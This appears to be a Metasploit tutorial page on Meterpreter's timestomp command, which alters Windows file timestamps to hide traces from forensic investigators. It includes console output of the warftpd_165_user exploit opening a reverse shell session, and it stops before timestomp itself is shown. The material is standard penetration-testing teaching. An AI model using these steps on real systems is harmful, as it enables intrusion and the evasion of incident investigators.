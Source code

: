 ```yaml
---
draft: false
title: MSF Timestomp
linkTitle: MSF Timestomp
translationKey: msf-timestomp
weight: 330
date: 2017-06-05T13:37:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will examine how to use the timestomp command.
url: /msf-timestomp/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## What is TimeStomp?

Pentesting any system requires interacting with that system. With every operation you perform, you leave traces on the target system. Examining these traces attracts the attention of forensics researchers. The timestamps of files are one of them. Meterpreter provides a command called `timestomp` to clean or at least mix up these traces.

The best way to not leave traces is to not touch the system at all. Meterpreter normally runs on RAM and does not touch the disk. However, as a result of some file operations you perform, time logs will inevitably be created. In this article, we will see how to manipulate the time records of files using the `timestomp` command.

Each file is kept in 3 different time records for Windows as Modified, Accesed and Changed. We can call these MAC times by their first letters. Do not confuse them with the MAC address of the network card.

Let's look at the MAC times of a file in Windows.

```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 5/3/2009 2:30:08 AM
Last Accessed: 5/3/2009 2:31:39 AM
Last Modified: 5/3/2009 2:30:36 AM
```

Above, we can see the time records of the file named `test.txt`. Now, let's assume that we have logged into `Meterpreter` on this system using the `warftpd_165_user` module.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1218)
meterpreter > use priv
Loading extension priv...success.
```
